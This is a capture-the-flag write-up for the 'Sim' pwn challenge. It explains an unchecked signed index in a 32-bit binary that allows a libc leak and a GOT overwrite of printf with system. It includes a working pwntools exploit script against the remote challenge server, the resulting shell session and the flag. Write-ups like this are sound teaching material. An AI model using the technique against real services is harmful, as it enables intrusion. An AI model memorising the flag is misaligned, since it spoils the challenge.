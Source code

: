 # Sim

**Description**:  
Welcome back `Agent 007`! As you can see, the simulator is running an arc right now. But the arc seems to be in a meltdown. Can you break its security with its own computational power and save it?

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
This seems to be the last challenge where Agent 007 will be back. 
You know the drill by now, `Checksec`:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8046000)
    RUNPATH:  b'.'
```

`Partial RELRO` opens up the possibility of GOT overwrite. 
For a change, this is also a 32 bit binary contrary to the 64 bit binaries that we encountered in the challenges thus far. So the addresses are going to be 4 bytes. 
`No PIE`, which means that the addess of the GOT table remains the same.

On running the binary, we can see that we have 3 options: ``add`, `show`, `break_armour``. All manipulates the reactor which is a global array declared as: `char *reactor[3][4]`. 


Now looking at the source code:

```C
void add(){

	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	puts("Enter the data :");
	read(0,reactor[idx],0x4);
		
}
```

`idx` is signed. Integer overflow is a possibility which allows negative indexiing. Also, we can allocate/write anything at `reactor+idx`. This is particularly dangerous because we can modify the contents of the reactor array at any position specified by idx. If negative values are permitted, we could potentially overwrite critical areas of memory, such as the Global Offset Table (GOT), since both reactor and the GOT are stored in the BSS segment. By calculating the correct offset, we could overwrite a GOT entry with the address of the `libc system` function. This would allow us to hijack the program's execution flow and ultimately gain a shell.


```C
void show(){
	int idx;
	puts("Enter the index :");
	scanf("%d",&idx);
	if(reactor[idx])
		printf("%s\n",reactor[idx]);
	else
		puts("Not allocated!");
}
```

There is no check in `idx`. This can be exploited to print the data stored at `reactor+(-idx)` location. 

We can use the above to get more consistent `libc` leaks (addresses get randomized on each run due to ASLR). Then we can calculate the `system` address from the leaks. At last, we can overwrite GOT table entry of `printf` with the address (system) that we calculated. 


```C
	else if(choice == 3)
		{
		    printf(break_);
		}
```
*[In main]*
When the choice is 3, `printf(break_);` gets executed. So what if `break_` is `/bin/sh`? Viola! There pops the shell.

Note: Alternatively, you can also make use of the format string vulnerability in the `printf(break_)` to get the required leaks.

```python
from pwn import *
#p = process("./sim")

p = remote('13.234.11.113',32651)

def add(idx,data):
    p.sendlineafter("MELTDOWN)\n","1")
    p.sendlineafter("index :\n",str(idx))
    p.sendlineafter("data :\n",data)

def show(idx):
    p.sendlineafter("MELTDOWN)\n","2")
    
    p.sendlineafter("Enter the index :\n",str(idx))
def leave():
    p.sendlineafter("MELTDOWN)\n","3")

p.sendline("/bin/sh\x00")
show("268435454")

print("leaks:")
leak = u32(p.recvline()[:4].strip().ljust(4,b'\x00'))
print(hex(leak))
base = leak - 0x1d55c0
system = base + 0x3ce10
print("System address:", hex(system))
add("268435449", p32(system))

#gdb.attach(p)

leave()
p.interactive()
```

On running the script:
```
[*] Switching to interactive mode
Choose your ACTION:
1. add
2. show
3. break armour
$ ls
Dockerfile  flag.txt  ld-2.27.so  libc-2.27.so    libc.so.6  sim    sim.py    ynetd
$ cat flag.txt
shaktiCTF{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}
$ exit
```
 
:thumbsup::tada:

Flag: `shaktictf{Th3_4rc_15_s4v3d_4nd_h4ppy_pwn1ng}`              
